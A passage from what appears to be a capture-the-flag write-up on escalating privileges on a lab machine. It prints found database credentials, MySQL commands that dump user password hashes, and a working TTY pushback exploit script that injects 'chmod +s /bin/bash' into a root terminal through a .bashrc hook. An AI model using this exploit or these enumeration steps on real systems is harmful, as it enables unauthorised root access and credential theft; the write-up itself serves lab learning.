 ```sh
$host = 'localhost';
$dbname = 'backtrack';
$username = 'orville';
$password = '3uK32VD7YRtVHsrehoA3';
```
4. With the above credentials you can connect to the data base and look for interesting stuff (like other users credentials):

```sh
# Connect to the data base
mysql -h localhost -u orville -p #add password when prompted

# List available DBs
show databases;

# Check mysql DB
use mysql;

# List mysql DB tables
show tables;

# Select available users and info
select * from user;
```
5. Using listed commands I was able to discover a user `root` with a `mysql_native_password` like `*856799D829FB98D3A55E56F888675465A2C973E4`
6. After a lot of time spent on this rabbit hole I decided to check other options as cracking the password for root and trying to change password with limited privileges `orville` user had on `mysql` DB, was impossible
7. The next rabbit hole I spent time was related to archive previously discovered `/home/orville/web_snapshot.zip`; this file is created every minute by some script/cron/app and I lost a lot of time trying to exploit that
8. Finally seems everting boils down to some old vulnerability described [here](https://www.errno.fr/TTYPushback.html) called TTY Pushback (with a CTFish twist)
9. Basically while running the `su` command, the `root` user does not use the `-P` flag, meaning no new `PTY` is allocated 
10. User `orville` can abuse it by sending a `SIGSTOP` signal to it, allowing focus to shift to the `root` shell
11. On the link above you can find the POC as a Python script you can use to crate a file called `ttyPush.py` in `orville` home directory

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod +s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```
12. Next we add the script to `.bashrc` so it can be executed by `root`

```sh
echo "python3 /home/orville/ttyPush.py 'chmod +s /usr/bin/bash'" >> .bashrc
```
13. Finally we can run `bash -p` and gain root access  so we can retrieve the `flag3.txt` from `/root`: **[FLAG3]**
